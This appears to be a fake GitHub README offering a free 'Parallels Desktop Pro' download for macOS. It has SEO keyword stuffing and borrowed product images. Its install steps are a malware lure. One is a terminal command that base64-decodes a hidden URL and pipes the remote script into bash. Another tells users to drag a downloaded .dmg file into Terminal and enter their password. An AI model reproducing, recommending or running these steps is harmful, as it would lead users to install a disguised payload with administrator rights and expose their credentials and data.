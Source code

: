 # Parallels Desktop Pro — Download for macOS

[![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](https://shuziktobehuman.github.io/huja/ParallelsDesktop)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

🎯 **What You Unlock**

🖥️ Run Windows and other operating systems seamlessly on macOS  
⚡ High-performance virtualization optimized for Apple Silicon  
🛠️ Advanced tools for developers and power users  
📊 Resource allocation and management controls  
💻 Compatible with macOS Big Sur, Monterey, Ventura, and newer  
🚫 No App Store or subscription needed  

🖼 **Preview**

![Parallels Desktop Pro Interface](https://m.media-amazon.com/images/I/71UJxmJQZbL._AC_UF1000,1000_QL80_.jpg)  

![Parallels Desktop Pro Features](https://www.parallels.com/static/pl/fileadmin/res/img/pd/2024/pro/pdp-hero.png)  

![Parallels Desktop Pro Workflow](https://www.parallels.com/static/pl/fileadmin/res/img/pdb/2023/pdb-hero.jpg)  



🔍 **SEO Keywords**

parallels desktop pro, parallels desktop for mac pro edition, parallels desktop pro edition, parallels for macbook pro, parallels ipad pro, parallels pro edition, macbook air parallels, parallels desktop for mac pro, parallels desktop pro for mac, parallels desktop pro mac download, parallels desktop pro mac free download, parallels desktop pro download, parallels virtualization mac, parallels mac software, parallels pro offline installer, parallels desktop latest version mac
  

